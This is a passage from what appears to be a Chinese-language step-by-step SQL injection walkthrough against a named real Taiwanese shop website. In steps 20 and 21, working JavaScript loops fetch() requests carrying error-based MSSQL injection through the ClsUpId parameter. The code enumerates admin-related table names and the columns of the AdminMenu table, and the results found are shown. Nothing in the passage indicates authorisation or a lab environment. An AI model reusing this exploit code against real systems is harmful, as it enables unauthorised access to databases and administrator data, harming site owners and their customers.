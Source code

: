 ```js
  "AdjRsn",
  "AdminLoginLog",
];
```

感覺可以優先查詢 Admin 相關的 table_name

20. 查詢 Admin 相關的 table_name

```js
const table_names = [];
const fixedUrl = `https://xl-stationer.com.tw/_Models/mItemList.asp?ClsUpId=';SELECT 1/name FROM sysobjects WHERE xtype LIKE 'U' AND name LIKE '%25admin%25'`;
async function main() {
  for (let i = 0; i < 40; i++) {
    const andSyntax = table_names
      .map((table_name) => ` AND name NOT LIKE '${table_name}'`)
      .join("");
    const fullUrl = `${fixedUrl}${andSyntax}--`;
    const res = await fetch(fullUrl);
    const text = await res.text();
    const table_name = text.split("'")[1] === "80004005" && text.split("'")[3];
    if (table_name) table_names.push(table_name);
    else break;
  }
  console.log("end");
}
```

結果

```js
["AdminLoginLog", "AdminMenu"];
```

21. 查詢 AdminMenu 的 column_name

```js
const result = [];
const fixedUrl = `https://xl-stationer.com.tw/_Models/mItemList.asp?ClsUpId=';SELECT 1/column_name FROM information_schema.columns WHERE table_name LIKE 'AdminMenu'`;
async function main() {
  for (let i = 0; i < 40; i++) {
    const andSyntax = result
      .map((item) => ` AND column_name NOT LIKE '${item}'`)
      .join("");
    const fullUrl = `${fixedUrl}${andSyntax}--`;
    const res = await fetch(fullUrl);
    const text = await res.text();
    const item = text.split("'")[1] === "80004005" && text.split("'")[3];
    if (item) result.push(item);
    else break;
  }
  console.log("end");
}
```
